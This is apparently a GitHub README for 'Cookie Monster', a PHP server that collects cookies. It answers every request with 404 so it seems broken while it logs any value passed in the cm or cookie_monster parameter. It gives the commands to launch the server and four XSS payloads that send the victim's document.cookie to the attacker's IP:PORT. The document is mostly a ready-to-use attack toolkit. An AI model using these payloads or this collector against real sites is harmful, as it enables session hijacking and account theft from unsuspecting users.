# Cookie Monster 

## Description

Simple php self server for capturing cookies. (also to help learn some PHP)

Gives 404 on all requests to seem broken.  
Will log any request with either ```cm``` or ```cookie_monster``` as the parameter.

eg: 

```
http://IP:PORT/?cm=cookieToSteal
```

## Usage

Save the index.php file to a directory.
Open a shell in that directory. 
Start a PHP server

Windows 

```
C:\php\php.exe -S 0.0.0.0:3000
```

Linux

```
php -S 0.0.0.0:3000
```

Basic XSS Cookie stealer payloads

```
<script>var i = new Image();i.src="http://IP:PORT/cm="+document.cookie</script>
"><script>var i = new Image();i.src="http://IP:PORT/cm="+document.cookie</script>


<script>var i = new Image();i.src="http://IP:PORT/cookie_monster="+document.cookie</script>
"><script>var i = new Image();i.src="http://IP:PORT/cookie_monster="+document.cookie</script>
```



Screenshots.

Windows


Linux
